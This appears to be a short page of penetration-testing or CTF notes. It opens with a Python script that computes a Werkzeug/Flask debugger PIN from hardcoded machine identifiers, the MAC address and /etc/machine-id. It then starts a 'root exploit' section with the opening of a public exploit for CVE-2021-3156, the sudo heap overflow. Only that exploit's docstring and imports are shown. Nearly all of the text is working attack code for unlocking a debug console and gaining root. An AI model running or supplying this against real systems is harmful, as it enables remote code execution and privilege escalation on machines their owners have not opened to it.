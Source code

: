 private_bits = [
        '345051817616',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '258f132cd7e647caaf5510e3aca997c1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

print(rv)



### root exploit

#!/usr/bin/python3
'''
Exploit for CVE-2021-3156 with overwrite struct service_user by sleepya

This exploit requires:
- glibc with tcache
- nscd service is not running

Tested on:
- Ubuntu 18.04
- Ubuntu 20.04
- Debian 10
- CentOS 8
'''
import os
import subprocess
import sys
from ctypes import cdll, c_char_p, POINTER, c_int, c_void_p
